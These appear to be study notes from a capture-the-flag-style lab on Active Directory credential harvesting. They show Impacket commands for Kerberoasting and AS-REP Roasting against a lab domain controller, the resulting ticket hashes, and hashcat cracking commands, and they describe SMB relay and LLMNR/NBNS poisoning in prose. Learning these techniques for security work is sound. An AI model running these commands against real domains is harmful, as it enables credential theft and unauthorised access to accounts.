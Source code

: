 In the previous tasks, the assumption is that we already had initial access to a system and were trying to obtain credentials from memory or various files within the Windows operating system. In other scenarios, it is possible to perform attacks in a victim network to obtain credentials.

## Kerberoasting
Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to *SPN* (Service Principal Name) accounts such as *IIS User, MSSQL*, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (*TGT*) and Ticket Granting Service (*TGS*). This attack's end goal is to enable privilege escalation and lateral network movement.

Let's do a quick demo about the attack. First, we need to find an SPN account(s), and then we can send a request to get a TGS ticket. We will perform the Kerberoasting attack from the AttackBox using the *GetUserSPNs.py* python script. 

We provide the Domain Controller IP address and the domain name\username. Then the GetUserSPNs script asks for the user's password to retrieve the required information.

Enumerating for SPN Accounts
```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip {MACHINE_IP} {THM.red/thm}
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
```

The output revealed that we have an *SPN account*, svc-user. Once we find the SPN user, we can send a single request to get a *TGS* ticket for the srv-user user using the `-request-user` argument.

Requesting a TGS Ticket as SPN Account
```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip {MACHINE_IP} {THM.red/thm} -request-user {svc-user} 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
```

Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using `-m 13100` mode as follows:

Cracking the TGS Ticket using Hashcat
```shell-session
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

**Example:**
	![](Pasted%20image%2020241126144602.png)![](Pasted%20image%2020241126144743.png)
```shell-session
root@10.10.77.216$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

## AS-REP Roasting
AS-REP Roasting is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "Do not require Kerberos pre-authentication". This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!
	![](Pasted%20image%2020241126151113.png)

The attached VM has one of the AD users configured with the "Do not require Kerberos preauthentication" setting. Before performing the AS-REP Roasting, we need a list of domain accounts that should be gathered from the enumeration step. In our case, we created a `users.lst` list in the tmp directory. The following is the content of our list, which should be gathered during the enumeration process.
```markup
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```

We will be using the Impacket Get-NPUsers script this time as follows:

Performing an AS-REP Roasting Attack against Users List
```shell-session
root@machine$ python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip {10.10.17.173} {thm.red}/ -usersfile {/tmp/users.txt}
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We specified the IP address of the domain controller with the `-dc-ip` argument and provided a list of domain users to check against. Once the tool finds the right user with no preauthentication configuration, it will generate the ticket.

***Note:***
	Various cybersecurity and hacking tools also allow cracking the TGTs harvested from Active Directory, including Rubeus and Hashcat. Impacket GetNPUsers has the option to export tickets as John or hashcat format using the `-format` argument.

## SMB Relay Attack
The SMB Relay attack abuses the NTLM authentication mechanism (NTLM challenge-response protocol). *The attacker performs a Man-in-the-Middle attack to monitor and capture SMB packets and extract hashes*. For this attack to work, the SMB signing must be disabled. SMB signing is a security check for integrity and ensures the communication is between trusted sources.

## LLMNR/NBNS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) help local network machines to find the right machine if DNS fails. For example, suppose a machine within the network tries to communicate with no existing DNS record (DNS fails to resolve). In that case, the machine sends multicast messages to all network machines asking for the correct address via LLMNR or NBT-NS.

The NBNS/LLMNR Poisoning occurs when an attacker spoofs an authoritative source on the network and responds to the Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) traffic to the requested host with host identification service.

*The end goal for SMB relay and LLMNR/NBNS Poisoning attacks is to capture authentication NTLM hashes for a victim, which helps obtain access to the victim's account or machine.*
